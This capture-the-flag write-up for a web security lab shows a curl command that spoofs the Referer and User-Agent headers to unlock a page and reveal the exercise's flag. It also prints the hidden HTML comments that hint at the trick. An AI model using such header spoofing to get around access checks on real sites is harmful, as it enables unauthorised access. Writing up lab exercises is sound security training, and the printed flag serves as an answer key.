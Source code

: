 # Spoof(curl)

If we click on `Born2Sec` at the bottom of the page we get to <http://[VM_IP]/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f>

![Born2Sec](./img/Born2Sec.png)

![albatros](./img/albatros.png)

In the source code on this page we can find the following comments (some are more relevant than others):
```
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

So we have to change our header to make it look like we are coming from <https://www.nsa.gov/> and using custom browser `ft_bornToSec`.

With `curl` we can do exactly that using flags -A (Specify the User-Agent) and -e (Sends the "Referer Page") information to the HTTP server:
```
daniseed@DESKTOP:~/darkly$ curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://[VM_IP]/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"  | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0   737k      0 --:--:-- --:--:-- --:--:--  737k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We have our flag

## Explanation

Attack type: [Host Header Attack](https://portswigger.net/web-security/host-header)

## How to fix it

This vulnerability is fixed on new webservers but it is better ro be careful with header attributes on backend. You should never execute something with their contents
